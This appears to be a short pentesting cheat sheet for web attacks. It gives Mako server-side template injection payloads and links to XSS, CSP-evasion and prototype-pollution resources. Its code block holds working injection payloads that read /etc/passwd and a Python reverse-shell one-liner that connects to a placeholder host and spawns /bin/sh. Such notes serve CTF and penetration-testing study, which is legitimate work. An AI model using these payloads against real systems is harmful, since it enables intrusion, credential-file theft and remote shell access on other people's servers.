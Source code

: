 # Web

## Resources
- [:alien: Revshells](https://www.revshells.com/)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology)

## SSTI
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

## XSS
- [Hacktricks XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [CSP evasion with JPG polyglot](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
  - [XSS jpg polyglot](https://infosecwriteups.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a)
  - [imgj_polygloter](https://github.com/s-3ntinel/imgjs_polygloter)
  - `<script charset="ISO-8859-1" type="text/javascript" src="/some/route"></script>`
- [CSP evasion with dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

## Misc
- [prototype pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

## Foothold
  - SSTI
  - SQL injections
  - SSRF
  - XSS

